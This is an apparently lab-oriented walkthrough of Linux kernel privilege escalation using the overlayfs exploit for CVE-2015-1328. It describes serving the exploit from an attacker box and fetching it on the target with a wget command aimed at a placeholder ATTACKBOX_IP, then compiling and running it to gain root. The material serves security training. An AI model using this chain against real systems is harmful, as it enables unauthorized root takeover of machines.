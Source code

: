 Step 1. Identify the kernel version :

![](https://miro.medium.com/v2/resize:fit:517/1*QbclEEzfwqxOtak8vyYLKw.jpeg)

Find the kernel version using “uname -a” command

Step 2. Search and find an exploit code for the kernel version :

We have discovered the CVE-[2015–1328](https://nvd.nist.gov/vuln/detail/CVE-2015-1328) and the exploit code in the previous task ( Visit the website [https://www.exploit-db.com/exploits/37292](https://www.exploit-db.com/exploits/37292) ).

Download the exploit code file to the AttackBox (your attacker machine) :

![](https://miro.medium.com/v2/resize:fit:700/1*_FaEDChjExp5Qogn6sWjKg.jpeg)

After downloading it, I renamed it **“ofs.c”** to make it easier to understand in the following steps.

![](https://miro.medium.com/v2/resize:fit:700/1*foTG5n0tI4hQgtvwc95jCQ.jpeg)

The Exploit Code File called ofs.c

Transfer the exploit code from the AttackBox to the target system using the `SimpleHTTPServer` Python module and `wget` command respectively :

![](https://miro.medium.com/v2/resize:fit:700/1*7x1wYB6s5GWEuwbD2vKoWg.jpeg)

Launch the Python **HTTP server** on the **AttackBox** side (I specified the port number as 9000, default one is 8000)

On the target machine side :

![](https://miro.medium.com/v2/resize:fit:700/1*3JqV9_MlJwdRLE__w9KUqw.jpeg)

Transferring the exploit file to the target

wget http://ATTACKBOX_IP:9000/ofs.c -P /tmp/

In the wget command above, the `-P` option specifies that the file should be saved to the `/tmp/` directory on the target machine. In order to avoid the permission error while running the `wget` command because you are a low-level privilege user, it would be better to specify the path as `/tmp/` where the file be downloaded.

Navigate to the `/tmp/` directory on the target machine in order to see the exploit code file :

![](https://miro.medium.com/v2/resize:fit:700/1*xVeMEaC1coxRIIoBYYX4pA.jpeg)

We have the exploit code file on the target side now

Now we can use the exploit code file to perform privilege escalation. However remember that :

“Some exploits may require further interaction once they are run. **Read all comments and instructions provided with the exploit code.**”

![](https://miro.medium.com/v2/resize:fit:700/1*quUDkmLiirmCu2mUEd-4IQ.jpeg)

The instructions given in the comment lines of the exploit code

You can investigate the comment lines clearly via [https://www.exploit-db.com/exploits/37292](https://www.exploit-db.com/exploits/37292)

The first step we will do before running the exploit code is to compile this code file :

gcc ofs.c -o ofs

The code `gcc ofs.c -o ofs` is used to compile a C source code file named "ofs.c" into a binary executable file named "ofs" on a Linux operating system. The `gcc` command is the GNU Compiler Collection, a commonly used compiler for the C programming language on Linux and other Unix-like operating systems. The `ofs.c` file contains the C source code that will be compiled into the executable file. The `-o` option in the command specifies the output file name, which in this case is "ofs". To run the compiled executable file, simply type `./ofs` in the command line after compiling the C source code.

Let us compile the exploit code file `ofs.c` using the command `gcc ofs.c -o ofs` before running it :

![](https://miro.medium.com/v2/resize:fit:700/1*kA7uKXcZQ-R9hHFn1CWnBA.jpeg)

We have compiled the ofs.c and obtained the output file as “ofs”.

Now we can run the exploit code using the compiled file “`ofs`”.

3. Run the exploit :

Before running the exploit code, we are the low-level privilege user at the moment we have the compiled exploit code file as shown below :

![](https://miro.medium.com/v2/resize:fit:700/1*ISpy-8TMErtqQEc_OlJ_dw.jpeg)

Before running the exploit code

Let us run the exploit code typing `./ofs` in the command line and now you are root.